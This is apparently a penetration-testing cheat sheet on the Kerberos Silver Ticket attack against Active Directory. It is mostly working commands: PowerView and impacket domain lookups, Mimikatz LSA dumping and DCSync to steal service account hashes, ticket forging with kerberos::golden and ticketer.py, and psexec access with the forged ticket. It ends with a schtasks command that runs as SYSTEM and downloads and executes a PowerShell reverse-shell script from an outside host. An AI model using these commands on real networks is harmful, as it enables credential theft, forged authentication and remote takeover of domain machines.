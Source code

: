# Silver Ticket

The **Silver ticket attack** involves the creation of a valid **Ticket Granding Service (TGS)** for a **specific service** when the password hash of the service is obtaned.\
This allows unauthorized access to the service by forging a customized TGS without create a auth connection with the Domain Controller.

**Required:&#x20;**<mark style="color:purple;">**Service account obtained and**</mark> [<mark style="color:purple;">**PtH**</mark>](../ad-lateral-movement/pass-the-hash.md) <mark style="color:purple;">**session**</mark>

Requirements:

* Domain SID
* Service account / Machine Account hash
* Domain name
* SIDS (in Cross-Forest Attacks)

#### Methodology:

* Get Domain Info
* Get a Service Account NTLM hash
* &#x20;Forge Silver Ticket



## Get Domain Info

{% code title="From Windows" %}
```powershell
. .\PowerView.ps1
Get-Domain # Domain Name
Get-DomainSID # Domain SID
```
{% endcode %}

{% code title="From Linux" %}
```bash
cd /usr/share/doc/python3-impacket/examples/ # Kali location
lookupsid.py -hashes 'LMhash:NThash' 'DOMAIN/DomainUser@DomainController' 0
```
{% endcode %}



## Get a Service Account NTLM hash

### Invoke-Mimikatz.ps1

From obtained session from PtH:

Run the following commands to find the computer account password hash for the target machine

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /inject"' -Computername $TARGET_NAME.local
```
{% endcode %}

Or extract it with DCSync attack

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:DOMAIN\dc-01$"'
```

<figure><img src="../../../.gitbook/assets/image (111).png" alt="" width="563"><figcaption></figcaption></figure>

## Forge Silver Ticket

### Mimikatz (Windows)

Open another powershell terminal and run follow command:

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /domain:$DOMAIN.local /sid:$DOMAIN_SID /target:$DOMAIN_CONTROLLER /service:$SERVICE_NAME /rc4:$SERVICE_ACCOUNT_NTLM_HASH /user:$USER_TO_IMPERSONATE /ptt"'
```
{% endcode %}

> _example:_  `mimikatz.exe "kerberos::golden /admin:LukeSkywalker /id:1106 /domain:lab.adsecurity.org /sid:S-1-5-21-1473643419-774954089-2222329127 /target:adsmswin2k8r2.lab.adsecurity.org /rc4:d7e2b80507ea074ad59f152a1ba20458 /service:cifs /ptt"`

Params:

* **/domain** – the fully qualified domain name. In this example: “lab.adsecurity.org”.
* **/sid** – the SID of the domain. In this example: “S-1-5-21-1473643419-774954089-2222329127”.
* **/user** – username to impersonate (can be fake)
* **/ptt** – as an alternate to /ticket – use this to immediately inject the forged ticket into memory for use.
* **/id (optional)** – user RID. Mimikatz default is 500 (the default Administrator account RID).
* **/service** – the kerberos service running on the target server. This is the Service Principal Name class (or type) such as cifs, http, mssql.
* **/rc4** – the NTLM hash for the service (computer account or user account)
* **/target** – the target server’s FQDN.

### Ticketer.py (Linux)

This impacket script is usefull to forge a ticket with .**ccache output** file.

{% embed url="https://github.com/fortra/impacket/blob/master/examples/ticketer.py" %}

> Kali path: _/usr/share/doc/python3-impacket/examples_

{% code overflow="wrap" %}
```bash
python3 ticketer.py -spn $SPN_NAME -user-id 500 Administrator -nthash $PWD_HASH_ACCOUNT_OBTAINED -domain-sid $DOMAIN_SID -domain $DOMAIN.local
```
{% endcode %}

Check the tickets with `klist` command.

To set up the silver ticket for use, the **KRB5CCNAME** environment variable needs to be set to the path of the .ccache file, which can be an absolute or relative file path:

```
export KRB5CCNAME=Admnistrator.ccache
```

#### Use psexec with ticket to connect with compromised machine

```bash
psexec.py $DOMAIN.local/$Administrator@$TARGET_NAME -target-ip $TARGET_IP
-dc-ip $DC_IP -no-pass -k
# -no-pass: skip password-based authentication
# -k: kerberos ticket taken from the KRB5CCNAME env var
```



## Schedule and Execute a task on Remote Server

Adversaries create a silver ticket for HOST service which allows them to schedule a malicious
\
task on the target.

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:DOMAIN.com /sid:S-1-
5-21-xxxxxx-yyyy-zzzzz /target:$DC_NAME.$DOMAIN.com /service:$HOST /rc4:xxxxx /id:500
/groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
{% endcode %}

And now, create a schedule to execute a task on remote server

{% code overflow="wrap" %}
```powershell
schtasks /create /S $DC_NAME.$DOMAIN.com /SC Weekly /RU "NT Authority\SYSTEM" /TN “lateral" /TR
"powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://10.10.10.1:8000/InvokePowerShellTcp.ps1''')'"
```
{% endcode %}

Check the  schedule

```powershell
schtasks /Run /S $DC_NAME.$DOMAIN.com /TN "STCheck" 
```



